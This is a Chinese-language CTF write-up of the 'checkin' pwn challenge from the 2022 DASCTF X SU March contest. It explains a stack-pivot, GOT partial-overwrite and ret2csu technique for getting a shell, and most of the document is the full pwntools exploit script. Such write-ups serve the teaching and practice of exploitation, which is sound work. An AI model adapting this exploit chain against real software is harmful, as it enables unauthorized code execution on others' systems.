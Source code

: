 ```yaml
---
layout: article
pageview: true
key: 2022-03-28-buu-March-pwn-wp
title: 2022DASCTF X SU 三月春季挑战赛 Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```



<!--more-->

## checkin

题目环境2.31，保护只有NX，题目内可利用函数只有`read`和`setvbuf`，main函数中溢出到ret便结束了。

调用`read`函数的代码通过`rbp+buf`的形式算出`rsi`,我们可以通过溢出控制`rbp`并再次调用`read`函数来在指定地址写入内容，之后栈迁移便可控制程序流执行`execve("/bin/sh",0,0)`。

我们通过修改`read`函数的got表，使其指向`syscall`,再通过`syscall`调用`execve`即可。

2.31的libc中，修改`read`地址为`syscall`需要爆破半字节。



```python
from pwn import *
context(arch='amd64', log_level='debug')
flag = 0
ps = './checkin'
libc = ELF("./libc.so.6")
elf = ELF(ps)


def getConn():
    global flag
    if(flag == 1):
        return remote(host, port)
    return process(ps)


def debug(conn, arg=None):
    global flag
    if(flag == 1):
        return
    gdb.attach(conn, arg)
    pause()


def csu(call, rdi, rsi, rdx):
    csu_end = 0x40124A
    csu_front = 0x401230
    payload = p64(csu_end)+p64(0)+p64(1)+p64(rdi)+p64(rsi) + \
        p64(rdx)+p64(call)+p64(csu_front)+b'\x00'*0x38
    return payload


leave_ret = 0x00000000004011e2
p_rsi_15 = 0x0000000000401251
p_rdi = 0x0000000000401253
addr = elf.bss()+0x500
p = getConn()


p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

log.info(hex(addr+160))

pay = csu(elf.got['read'], 0, elf.got['read'], 2) + \
    p64(0x401156)

pay = pay.ljust(0xa0, b'\x00')
pay += p64(addr-8)+p64(leave_ret)
p.send(pay)


sleep(0.1)

p.send('\x00\xb0')

sleep(0.1)

addr += 0x100

p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

binsh = addr-0x100

pay = csu(elf.got['read'], 0, binsh, 8)+p64(0x401156)
p.send(pay.ljust(0xa0, b'\0')+p64(addr-8)+p64(leave_ret))
sleep(0.1)

p.send('/bin/sh\x00')

sleep(0.1)
addr += 0x100

# debug(p)

p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

pay = p64(0x40124a)+p64(0)+p64(1)+p64(0)+p64(addr+0x100)+p64(59)+p64(elf.got['read'])+p64(
    0x401230)+p64(0)*3+p64(binsh)+p64(0)*2+p64(elf.got['read'])+p64(0x401230)

p.send(pay.ljust(0xa0, b'\0')+p64(addr-8)+p64(leave_ret))

sleep(0.1)
p.send('\x00'*59)


p.interactive()

```
